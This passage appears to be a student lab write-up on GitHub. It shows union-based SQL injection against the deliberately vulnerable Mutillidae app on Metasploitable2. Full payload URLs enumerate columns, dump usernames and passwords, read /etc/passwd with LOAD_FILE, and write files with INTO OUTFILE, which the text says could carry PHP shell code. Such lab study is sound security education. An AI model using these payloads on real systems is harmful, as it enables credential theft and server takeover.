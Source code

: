 ![Screenshot 2023-06-10 225407](https://github.com/praveenst13/sqlinjection/assets/118787793/68ccd33b-a98d-4ff6-8c19-57e63c2724d0)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.




![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![Screenshot 2023-06-10 225659](https://github.com/praveenst13/sqlinjection/assets/118787793/c820f87a-30cb-485b-b423-f6fd0e67c96e)





Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![Screenshot 2023-06-10 225759](https://github.com/praveenst13/sqlinjection/assets/118787793/f7dd79fb-c11c-41f3-8019-06685e9cd759)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![Screenshot 2023-06-10 225846](https://github.com/praveenst13/sqlinjection/assets/118787793/13f4a113-06fc-4d62-a8ec-6525c4ec1343)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
